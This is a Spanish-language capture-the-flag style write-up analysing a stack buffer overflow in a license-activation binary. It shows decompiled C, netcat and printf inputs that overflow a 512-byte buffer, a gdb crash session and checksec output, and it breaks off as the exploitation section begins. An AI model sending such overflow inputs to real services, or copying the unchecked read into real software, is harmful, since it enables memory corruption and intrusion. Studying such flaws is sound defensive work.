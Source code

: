 ```c
  ssize_t sVar2;
  sqlite3_stmt *stmt; sqlite3 *db;
  uint32_t msglen; char buffer [512];
  
  // Mete en "msglen" 4 bytes del input que recibe de la conexión 
  tamaño = read(sockfd,&msglen,4); msglen = ntohl(msglen);
  printf("[+] reading %d bytes\n",(ulong)msglen);  
  // 4 bytes para el tamaño -> python3 -c "print('A'*4)" | nc localhost 666 -> reading 1094795585 bytes >>> 0x41414141 = 1094795585
 
  // Lo segundo que le pide al usaurio es la licencia. Mete en el buffer de 512 bytes hasta cubrir el tamaño especificado en mslen
  licencia = read(sockfd,buffer,(ulong)msglen);  

  // Lo almacena en una base de datos sqlite
  sqlite = sqlite3_open("license.sqlite",&db); 
  sqlite = sqlite3_exec(db, "CREATE TABLE IF NOT EXISTS license (id INTEGER PRIMARY KEY AUTOINCREMENT, license_key TEXT)" ,0,0,0);
  sqlite = sqlite3_prepare_v2(db,"INSERT INTO license (license_key) VALUES (?)",0xffffffff,&stmt,0);
  sqlite = sqlite3_step(stmt); port = sqlite3_reset(stmt); port = sqlite3_finalize(stmt);
  printf("[+] activated license: %s\n",buffer); return;}
```
Lo critico está en la funcion read ```licencia = read(sockfd,buffer,(ulong)msglen); ``` porque 
¿Y si lo que le metemos a buffer por sockfd es mas grande que lo especificado en mslen?
```console
└─$ printf "\x00\x00\x00\x01AAAA" | nc localhost 6668
└─$ ./activate_licens 666          
[+] reading 1 bytes
[+] activated license: A
```
Si le mandamos esto `printf "\x00\x00\x02\x00$(python3 -c 'print("A" * 600)')" | nc localhost 6668` (mete 600 A en 512 de tamaño) 
al final de las AAA pone bytes extraños,  puede que el proceso se ha corromprido de cierta manera. Pero por que no da SEGFAULT? porque es un proceso hijo
Si lo corremos con gdb en otro puerto (y seguimos al hijo):
```console
└─$ gdb ./activate_licens
gef➤  set follow-fork-mode child
gef➤  r 6667
# printf "\x00\x00\x03\x00$(python3 -c 'print("A" * 1000)')" | nc localhost 6668
# >>> SEGFAULT (mete 1000 A en 768 bytes)
```
-------------------
# Part 5: Explotación del binario

Vemos primero las protecciones:
```console
└─$ file ./activate_licens 
./activate_licens: ELF 64-bit LSB pie executable, x86-64, dynamically linked, /lib64/ld-linux-x86-64.so.2
gef➤  checksec
Canary                        : ✘ -> 
NX                            : ✓ -> no se puede ejecutar shellcode en la pila
PIE                           : ✓ -> memoria aleatorizada
Fortify                       : ✘
RelRO                         : Full -> No podemos modificar la tabla GOT
```
## Buffer overflow:
Antes de pensar en el ataque hay que ver lo primero de cualquier buffer overflow ¿Cuando corrompemos la pila (sobreescribir rip)?
```console
```